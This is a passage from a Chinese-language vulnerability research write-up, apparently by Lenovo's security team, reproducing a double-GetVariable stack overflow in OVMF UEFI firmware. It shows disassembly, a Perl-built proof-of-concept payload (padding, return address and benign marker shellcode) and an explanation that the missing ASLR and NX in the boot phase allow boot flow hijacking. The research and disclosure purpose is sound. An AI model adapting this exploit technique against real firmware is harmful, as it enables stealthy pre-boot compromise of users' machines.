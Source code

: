   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    .text:0000000000000FE7                 call    [rax+EFI_RUNTIME_SERVICES.GetVariable] ; gRT->GetVariable().text:0000000000000FE7                                         ; EFI_STATUS(EFIAPI * EFI_GET_VARIABLE) (IN CHAR16 *VariableName, IN EFI_GUID *VendorGuid, OUT UINT32 *Attributes, OPTIONAL IN OUT UINTN *DataSize, OUT VOID *Data).text:0000000000000FE7                                         ; VariableName   A Null-terminated string that is the name of the vendor's variable..text:0000000000000FE7                                         ; VendorGuid     A unique identifier for the vendor..text:0000000000000FE7                                         ; Attributes     If not NULL, a pointer to the memory location to return the attributes bitmask for the variable..text:0000000000000FE7                                         ; DataSize       On input, the size in bytes of the return Data buffer. On output the size of data returned in Data..text:0000000000000FE7                                         ; Data           The buffer to return the contents of the variable..text:0000000000000FEA                 add     rsp, 68h //[10].text:0000000000000FEE                 xor     eax, eax.text:0000000000000FF0                 pop     rbx.text:0000000000000FF1                 pop     rsi.text:0000000000000FF2                 retn

由于boot阶段没有aslr机制，所以重新使用之前编译的OVMF.fd替换现在NVRAM被更改后的，并更改payload为：

  * 

    
    
    perl -e 'print("\x07\x00\x00\x00". "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa"."\x00\x0d\xf0\x3f\x00\x00\x00\x00"."\x90\x90\x90\xb8\x0d\xf0\xad\xba")' > poc

这段payload为padding + ret addr +
shellcode。由于boot阶段没有nx机制，所以这里可以直接在栈内存里写shellcode并覆盖ret
addr跳转到shellcode地址执行；这段payload中ret addr为[9]中得到的保存Data的栈地址，由于前面已经计算得出保存ret
addr的地址为0x3ff00cf8，所以这里直接在ret
addr之后写shellcode，即0x3ff00d00。这里shellcode为"nop;nop;nop;mov rax,0xbaadf00d"。

重启并调试发现在boot阶段成功执行了我们的shellcode：

![]()

  

![]()

  

![]()

 **Part.04**

 **总结**

  

这篇文章我们复现并成功证明了BIOS的double
GetVariable类型漏洞可以被攻击者劫持boot执行流。联想重视并保护用户的计算机安全，我们针对联想的BIOS固件及客户端软件的漏洞进行了长期研究和深入挖掘，以从根本上提高产品的安全性。

![]()

  

  
